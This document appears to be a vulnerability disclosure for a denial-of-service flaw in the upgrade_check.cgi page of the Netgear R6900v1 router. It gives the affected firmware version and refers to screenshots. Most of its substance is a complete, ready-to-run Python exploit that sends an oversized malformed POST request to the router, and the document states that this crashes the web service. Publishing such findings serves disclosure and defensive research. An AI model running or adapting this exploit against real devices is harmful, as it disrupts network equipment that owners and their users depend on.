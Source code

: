# Netgear R6900v1 router Denial of service vulnerability



## Basic information

Supplier: Netgear
Product: R6900v1
Firmware version: R6900-V1.0.1.26_1.0.20



Normal access to the router web side:

![image-20240530152443831](vul.assets/image-20240530152443831.png)



## Leak point

A vulnerability exists on the upgrade_check.cgi page

![image-20240530152716719](vul.assets/image-20240530152716719.png)



If the upgrade_check.cgi page is accessed normally, the system automatically switches to the normal web terminal

![image-20240530152804617](vul.assets/image-20240530152804617.png)



## EXP

Write EXP to attack

```python
import requests

data1 = "*#$^"
data1 += "\x00\xFF\xFF\xFF"
data1 = data1.ljust(0xFFFF, 'A')


payload = ''
payload += 'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += 'Host: 192.168.1.1\r\n'
payload += 'Content-Disposition: AAAA\r\n'
payload += 'Content-Length: {}\r\n'.format(len(data1) + 1)
payload += 'Content-Type: application/octet-stream\r\n'
payload += 'name="mtenFWUpload"\r\n'
payload += '\r\n'
payload += data1

print(payload)

headers = {'Content-Length': str(len(payload))}

url = 'http://192.168.1.1:80/upgrade_check.cgi'
response = requests.post(url, headers=headers, data=payload)

print(response.text)
```

To carry out an attack:

![image-20240530153012560](vul.assets/image-20240530153012560.png)



## Vulnerability result

The web side of the router fails to perform services on the gateway again, and the attack succeeds.

![image-20240530153046472](vul.assets/image-20240530153046472.png)



![image-20240530153201775](vul.assets/image-20240530153201775.png)

